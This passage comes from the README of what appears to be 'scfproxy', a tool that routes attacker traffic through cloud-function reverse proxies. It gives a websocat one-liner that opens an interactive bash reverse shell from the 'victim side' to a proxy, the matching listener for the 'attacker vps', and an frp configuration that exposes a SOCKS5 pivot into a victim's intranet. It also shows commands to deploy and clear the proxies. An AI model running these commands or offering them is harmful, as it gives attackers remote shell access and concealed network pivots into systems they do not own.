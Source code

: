 The victim side executes.

```console
websocat ws://reverse_proxy_address sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

The attacker vps executes.

```console
websocat ws-l:0.0.0.0:port -- --binary -E --uncompress-zlib
```

The effect is as shown in.
![reverse_shell.png](img/reverse_shell.png)

#### Intranet penetration address hide

This scenario requires intranet penetration software that supports websocket protocol.

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

Using [frp](https://github.com/fatedier/frp) as an example, the client configuration.

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

The effect is as shown in the E

![frp](img/frp.png)

### Clear

```console
scfproxy clear reverse -p provider_list -r region_list -o origin
```

The `-o origin` argument is used to locate the service to be removed

# TODO

- [x] Optimize and add reverse proxy functionality for other providers
- [ ] Optimize the code
- [ ] Beautify the output and error handling
- [ ] Add other cloud providers such as Huawei Cloud, GCP, Azure, etc.

